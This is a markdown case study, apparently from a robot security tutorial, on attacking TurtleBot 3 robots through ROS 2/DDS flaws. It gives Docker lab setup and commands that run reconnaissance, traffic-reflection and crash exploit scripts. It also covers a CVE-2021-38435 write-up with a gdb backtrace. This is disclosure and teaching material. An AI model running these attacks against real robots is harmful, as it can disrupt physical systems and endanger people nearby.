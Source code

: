 \newpage

## TurtleBot 3 (TB3)

Building on top of the previous [ROS 2 case study](../2_ros2), this piece aims to demonstrate how ROS 2 vulnerabilities can be translated directly into complete robots and how attackers could exploit them.

### Dockerized environment
Like in previous cases, when possible, we'll facilitate a Docker-based environment so that you can try things out yourself! Here's this one:


```bash
# Build
docker build -t hacking_tb3:foxy --build-arg DISTRO=foxy .

# Run headless
docker run -it hacking_tb3:foxy -c "/bin/bash"

# Run headless with byobu config using both Fast-DDS and RTI's Connext
docker run -it hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless_connext.conf attach"

# Run headless sharing host's network
docker run -it --privileged --net=host hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless.conf attach"

# Run headless sharing host's network, and with some nodes launched using OpenDDS
docker run -it --privileged --net=host hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_headless_opendds.conf attach"


# Run, using X11
xhost + # (careful with this)
docker run -it -v /tmp/.X11-unix:/tmp/.X11-unix -e DISPLAY=$DISPLAY -v $HOME/.Xauthority:/home/xilinx/.Xauthority hacking_tb3:foxy -c "/usr/bin/byobu -f /opt/configs/pocs_connext.conf attach"

```

### Searching for TB3s around (reconnaissance)

```bash
python3 exploits/footprint.py 2> /dev/null
```

It'll find the CycloneDDS node `teleop_keyboard`, which respond to the crafted package and identify the corresponding endpoint.


### Messing up with TB3's traffic

![](../../images/2021/tb3_reflection.gif)

```bash
python3 exploits/reflection.py 2> /dev/null
```


### Crashing TB3s running DDS's "best in the world"

This section will exploit CVE-2021-38435, which RTI [forgot to credit back](https://community.rti.com/kb/ics-cert-security-notice-ics-vu-575352-vu770071). We found the following:

| CVE ID | Description | Scope    |  CVSS    | Notes  |
|--------|-------------|----------|----------|--------|
| CVE-2021-38435 | RTI Connext DDS Professional, Connext DDS Secure Versions 4.2x to 6.1.0, and Connext DDS Micro Versions  3.0.0 and later do not correctly calculate the size when allocating the buffer, which may result in a buffer  overflow | ConnextDDS, ROS 2<sub>*</sub>   | [8.6](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:H/E:P/RL:O/RC:C/CR:M/AR:H) | Segmentation fault via network   [>= 6.1.0](https://community.rti.com/kb/ics-cert-security-notice-ics-vu-575352-vu770071) |

The interest of this flaw is that it somewhat shows how easy it is to compromise the *best in the world* DDS solution:

![](../../images/2021/rti_connext.png)


```bash
Thread 6 "talker" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffb9f7fe700 (LWP 497)]
0x00007ffba68e9cbb in RTICdrStream_skipStringAndGetLength ()
--Type <RET> for more, q to quit, c to continue without paging--
  .1/lib/x64Linux3gcc5.4.0/libnddscore.so
(gdb) bt
#0  0x00007ffba68e9cbb in RTICdrStream_skipStringAndGetLength () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#1  0x00007ffba65bf590 in DISCBuiltin_getDataHolderDeserializedSize () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#2  0x00007ffba65c03db in DISCBuiltin_deserializeDataHolder () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#3  0x00007ffba65a549a in DISCBuiltinTopicParticipantDataPlugin_deserializeParameterValue () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#4  0x00007ffba65eb427 in PRESTypePlugin_deserializeParameterSequence () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#5  0x00007ffba65a5712 in DISCBuiltinTopicParticipantDataPlugin_deserialize () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#6  0x00007ffba665b608 in PRESCstReaderCollator_storeSampleData () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#7  0x00007ffba6680605 in PRESCstReaderCollator_newAnonData () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#8  0x00007ffba672904a in PRESPsService_readerSampleListenerOnNewDataAnon () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#9  0x00007ffba688a267 in COMMENDAnonReaderService_onSubmessage () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#10 0x00007ffba689c8b4 in MIGInterpreter_parse () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#11 0x00007ffba6820725 in COMMENDActiveFacadeReceiver_loop () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#12 0x00007ffba69b894a in RTIOsapiThreadChild_onSpawned () from /opt/rti.com/rti_connext_dds-5.3.1/lib/x64Linux3gcc5.4.0/libnddscore.so
#13 0x00007ffba776b609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#14 0x00007ffba78a7293 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```


<!-- Elaborate on this -->

Vulnerability Title

Segmentation Fault while receiving malformed packet in RTI Connext DDS
High-level overview of the vulnerability and the possible effect of using it

Serializer in RTI would segmentation fault while receiving a malformed form of packet. This would cause runtimes to exit immediately and causing an denial of service.
Detailed description of the vulnerability

RTICdrStream_skipStringAndGetLength does not check for any type of malformed packet, thus while using results from RTICdrStream_align, it will commit a segmentation fault.
How did you find this vulnerability?

afl-unicorn
Can you identify exploitability?

DoS
Can you identify root cause?

RTICdrStream_skipStringAndGetLength does not check for any type of malformed packet, thus while using results from RTICdrStream_align, it will commit a segmentation fault. We compiled test programs in static mode, gcc5.4, Linux 3, C. Both publisher and subscriber is affected.


### Crashing a simple ROS 2 Node with RTI's Connext DDS
Here's a simpler PoC that launches a ROS 2 publisher which is then crashed by also exploiting CVE-2021-38435:

[![CVE-2021-38435: RTI's Connext ROS 2 Node hacking](https://asciinema.org/a/451837.svg)](https://asciinema.org/a/451837)

```bash
# split 1
docker run -it hacking_tb3:foxy -c "/bin/bash"
RMW_IMPLEMENTATION=rmw_connext_cpp ros2 run demo_nodes_cpp talker

# split 2
sudo python3 exploits/crash_connext.py 2> /dev/null
```
